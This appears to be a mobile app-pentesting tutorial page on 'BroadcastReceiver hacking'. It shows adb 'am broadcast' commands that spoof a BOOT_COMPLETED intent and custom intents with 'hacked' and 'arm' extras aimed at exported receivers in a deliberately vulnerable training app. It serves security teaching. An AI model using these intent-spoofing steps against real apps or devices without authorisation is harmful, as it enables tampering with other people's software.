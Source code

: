 # BroadcastReceiver Hacking

#### How to Send a Broadcast Using Activity Manager (am) in Android

In Android, you can send broadcasts to receivers defined in the `AndroidManifest.xml`. Here’s a detailed guide on how to do this effectively.

**Defining Intent Filters in `AndroidManifest.xml`**

First, define your receiver and its intent filters in the `AndroidManifest.xml`. For example:

```xml
<receiver android:name=".MyReceiver">
    <intent-filter>
        <action android:name="com.example.MY_ACTION" />
    </intent-filter>
</receiver>
```

In our example application, the receiver is configured to listen for two actions: `BOOT_COMPLETED` and `LOCKED_BOOT_COMPLETED`.

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Sending a Broadcast Using `adb`**

To send a broadcast to this receiver using `adb shell`, you can utilize the `am` (Activity Manager) command. Here’s how to send a `BOOT_COMPLETED` broadcast:

```sh
adb shell am broadcast -a android.intent.action.BOOT_COMPLETED
```

After executing this command, you should observe in logcat that the application is handling the broadcast, possibly performing a system reset.

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Compatibility with Newer Android Versions**

The above method works for older versions of Android. For Android 8.0 (Oreo) and higher, broadcast receivers need to be registered in the Java code, not just in the manifest.

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Checking the `onReceive` Method**

Let’s examine the `onReceive` method in your BroadcastReceiver. Typically, it might process extras included in the broadcast intent. For example, it could be looking for an extra with the key `status`:

```java
@Override
public void onReceive(Context context, Intent intent) {
    String status = intent.getStringExtra("status");
    if ("hacked".equals(status)) {
        // Handle the "hacked" status
    } else if ("arm".equals(status)) {
        // Handle the "arm" status
    }
}
```

**Here is what we got in our vuln-app**

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

**Sending a Custom Broadcast**

To test your receiver by sending a custom broadcast with an extra value, use the `am` command. For instance, to send a status of "hacked", execute:

```sh
adb shell am broadcast -a com.apphacking.broadcastreceiver.alarmState -es "status" "hacked"
```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

You should see logcat messages indicating that the application has processed the "hacked" status.

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

**Arming the Alarm System**

Similarly, to arm the alarm system, you can send a broadcast with the status set to "arm":

```sh
adb shell am broadcast -a com.apphacking.broadcastreceiver.alarmState -es "status" "arm"
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

By following these steps, you can effectively send broadcasts using the Activity Manager in Android, whether you are working with older versions or the latest ones.

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>
